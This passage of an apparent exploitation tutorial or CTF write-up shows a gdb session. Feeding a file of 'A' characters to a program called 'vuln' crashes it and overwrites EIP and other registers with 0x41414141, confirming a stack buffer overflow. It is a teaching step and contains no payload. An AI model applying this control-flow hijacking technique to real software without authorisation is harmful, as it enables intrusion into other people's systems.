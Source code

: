 ```bash
gdb ./vuln
```
```bash
gdb ./vuln
 
GNU gdb (Debian 8.2.1-2) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
 
For help, type "help".
Type "apropos word" to search for commands related to "word"...
(gdb)
```

Feed in the junk characters.

```bash
(gdb)  r < a.txt
```
```bash
(gdb)  r < a.txt
Starting program: /root/Documents/vuln < a.txt
What is your name?
Hey AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, you're harmless, aren't you?
 
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

The program is crashed as expected.

We check with the registers to see what had happened.

```bash
(gdb) info registers
```
```bash
(gdb) info registers
eax            0x55                0x55
ecx            0x1f                0x1f
edx            0xf7fa9890          0xf7fa9890
ebx            0x41414141          0x41414141
esp            0xffffd330          0xffffd330
ebp            0x41414141          0x41414141
esi            0xf7fa8000          0xf7fa8000
edi            0xf7fa8000          0xf7fa8000
eip            0x41414141          0x41414141
eflags         0x10286             [ PF SF IF RF ]
cs             0x23                0x23
ss             0x2b                0x2b
ds             0x2b                0x2b
es             0x2b                0x2b
fs             0x0                 0x0
gs             0x63                0x63
(gdb)
```
